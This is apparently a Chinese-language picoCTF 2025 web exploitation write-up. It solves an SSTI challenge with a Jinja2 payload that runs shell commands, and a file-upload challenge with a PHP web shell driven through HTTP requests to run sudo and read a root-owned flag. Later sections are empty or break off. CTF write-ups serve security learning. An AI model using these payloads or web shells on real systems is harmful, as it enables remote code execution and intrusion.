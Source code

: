 ```yaml
---
title: "picoCTF 2025 Web Exploitation Write-up"
date: 2025-07-27
categories: [CTF]
tags: [picoCTF2025]
TocOpen: false
---
```


## 0x00 SSTI1

### 題目描述

![SSTI1 Description](./SSTI1/Description.png)

首先使用 Wappalyzer 工具識別目標網站的技術棧：

![wappalyzer](./SSTI1/wappalyzer.png)

**發現關鍵資訊**：

- 後端框架：Python Flask
- 模板引擎：Jinja2（Flask 預設）
- 可能存在 SSTI 漏洞

### 解題過程

使用基礎數學運算測試是否存在模板注入：

**Payload**: `{{9*9}}`

![test](./SSTI1/test.png)

確認存在 SSTI 漏洞，模板引擎執行了數學運算

針對 Flask/Jinja2 環境構造 payload：

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat fl*').read()}}
```

**Payload 解析**：

- `request.application.__globals__`: 存取 Flask 應用程式的全域變數
- `__builtins__`: 存取 Python 內建函數
- `__import__('os')`: 匯入 os 模組
- `popen('cat fl*')`: 執行系統命令讀取 flag 檔案

![SSTI1 flag](./SSTI1/flag.png)

Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}`

## 0x01 n0s4n1ty 1

### 題目描述

![](./n0s4n1ty%201/Description.png)

存取目標網站發現檔案上傳功能，使用 Wappalyzer 識別技術棧：

![alt text](./n0s4n1ty%201/image.png)

**發現關鍵資訊**：

- 後端：PHP
- 可能存在檔案上傳漏洞
- 可嘗試上傳 Web Shell

### 解題過程

針對 PHP 後端建立簡單的 Web Shell：

```php
<?php system($_GET['cmd']); ?>
```

```bash
echo "<?php system($_GET['cmd']); ?>" > webshell.php
```

成功上傳 `webshell.php` 到伺服器的 `/uploads/` 目錄

嘗試存取 root 目錄：

```http
GET /uploads/webshell.php?cmd=ls%20/root
```

**結果**: 無回應，可能權限不足

測試是否可使用 sudo 指令：

```http
GET /uploads/webshell.php?cmd=sudo%20find%20/%20-name%20%22flag.txt%22
```

![](./n0s4n1ty%201/image%20copy.png)

**發現關鍵**：當前用戶具有 sudo 權限！

使用 sudo 權限讀取 flag：

```http
GET /uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt
```

![](./n0s4n1ty%201/flag.png)

Flag: `picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}`

## 0x02 head-dump

### 題目描述

![](./head-dump/d.png)

### 解題過程

看了一下題目描述，有說到`API`，所以先找找能不能訪問 api 文件
一樣先看適用什麼 api 管理工具

![wappalyzer](./head-dump/w.png)

發現關鍵資訊：

- API 管理工具：Swagger

進行 API 目錄路徑暴力猜測
使用`dirb` 工具：

```bash

```

## 0x03 Cookie Monster Secret Recipe

### 題目描述
